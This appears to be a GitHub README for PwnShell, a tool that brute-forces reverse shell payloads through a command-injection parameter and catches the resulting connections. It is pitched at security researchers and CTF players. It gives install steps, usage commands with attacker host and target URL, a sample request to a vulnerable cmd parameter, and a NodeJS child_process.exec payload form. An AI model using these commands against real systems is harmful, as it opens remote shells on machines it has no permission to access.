 

# PwnShell

### PwnShell is a Powerfull RevShell Bruteforcer and Connection Handler built For Security Researchers and CTF Players!

![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/PwnShell.png)

<a href="#getting-started">Installation</a>
    </li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#contact">Contact</a></li>
    <li><a href="#acknowledgements">Acknowledgements</a></li>
  </ol>
</details>

## Installation

1. Clone the repo
   ```sh
   git clone https://github.com/zAbuQasem/PwnShell
   ```
2. Install the dependencies
   ```sh
   cd PwnShell/
   pip3 install -r requirements.txt
   ```
3. Make the script executable 
   ```sh
   chmod +x pwnshell.py
   ```

<!-- USAGE EXAMPLES -->
## Usage
### Request-File Method [Recommended] 👇
```sh
./pwnshell.py -H [HOST IP] -f [REQUEST FILE]
```
#### Example:
-Copy from Burp or Network tab

-Replace the Vulnerable place in the parameter with 'PWNME'
```sh
GET /Vulnerable.php?cmd=PWNME HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
### URL Method 👇
```sh
./pwnshell.py -H [HOST-IP] -u [TARGET-URL] -m [REQUEST-METHOD] -c [COOKIE (optional)] -k [HEADERS (optional)]

#Note: Cookie and headers must be in JSON format (if provided).
   ```
```sh
./pwnshell.py -H <HOST-IP> -u http/s://<TARGET>/Vulnerable.php?cmd=PWNME --method GET --cookie '{"key" : "value"}' 
```
#### Example:
-Replace the Vulnerable place in the parameter with 'PWNME'
```sh

./pwnshell.py -H 127.0.0.1 -u http://10.10.10.10/vulnerable.php?cmd=PWNME
```

### For NodeJs Payloads 
```sh
./pwnshell.py -H [HOST-IP] -n   
  
#To use only -> require('child_process').exec('Payload')
```
## Preview
### Using [Request-File Method]
![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/requestfile-demo.gif)

### Using [URL Method]
![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/url-demo.gif)

<!-- CONTACT -->
## Contact

**Zeyad AbuQasem** - [LinkedIn](https://www.linkedin.com/in/zeyad-abuqasem/)

**Omar Albalouli** - [LinkedIn](https://www.linkedin.com/in/omar-albalouli/) & [Github](https://github.com/omaralbalolly)

<!-- ACKNOWLEDGEMENTS -->
## Acknowledgements
* [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [LinEnum](https://github.com/rebootuser/LinEnum)
* [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
* [Docker Privesc Script](https://github.com/flast101/docker-privesc)
* [SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)
* [Burpee](https://github.com/xscorp/Burpee)

### TODO:
```sh
1- Add support for windows
2- Add more payloads and options
3- Add Post exploitation scripts for [linux/windows]
